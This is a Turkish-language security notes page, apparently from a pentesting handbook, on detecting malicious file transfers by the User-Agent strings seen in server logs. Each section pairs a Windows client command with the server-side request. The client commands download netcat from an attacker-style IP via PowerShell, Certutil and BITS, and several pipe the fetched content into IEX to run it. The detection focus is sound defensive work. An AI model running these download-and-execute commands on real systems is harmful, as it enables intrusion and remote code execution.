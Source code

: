```yaml
---
icon: material/circle-small
search:
  boost: 2
---
```


# Detection

HTTP istemcileri en kolay şekilde, sunucunun kendisine hangi HTTP istemcisinin (Firefox, Chrome vb.) bağlandığını tanımlamak için kullandığı User-Agent dizesi tarafından tanınır. User-Agent dizelerinin bir listesini [burada](http://useragentstring.com/pages/useragentstring.php) bulabilirsiniz.

Kötü amaçlı dosya aktarımları da User-Agent dizesi tarafından tanınabilir. Bu bölümde verilen User-Agent dizeleri yaygın HTTP aktarım tekniklerinden gözlemlenmiştir (Windows 10 ve PowerShell 5 ile test edilmiştir).

## Invoke-WebRequest - Client

```powershell
Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
```

## Invoke-WebRequest - Server

```text
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
```

## WinHttpRequest - Client

```powershell
$h = New-Object -ComObject WinHttp.WinHttpRequest.5.1; $h.open('GET', 'http://10.10.10.32/nc.exe', $false); $h.send(); IEX $h.responseText
```

## WinHttpRequest - Server

```text
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```

## Msxml2 - Client

```powershell
$h = New-Object -ComObject Msxml2.XMLHTTP; $h.open('GET', 'http://10.10.10.32/nc.exe', $false); $h.send(); IEX $h.responseText
```

## Msxml2 - Server

```text
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
```

## Certutil - Client

```batch
certutil -urlcache -split -f http://10.10.10.32/nc.exe
```

## Certutil - Server

```text
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
```

## BITS - Client

```powershell
Import-Module BitsTransfer; Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:TEMP\t; $r = Get-Content $env:TEMP\t; Remove-Item $env:TEMP\t; IEX $r
```

## BITS - Server

```text
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
```
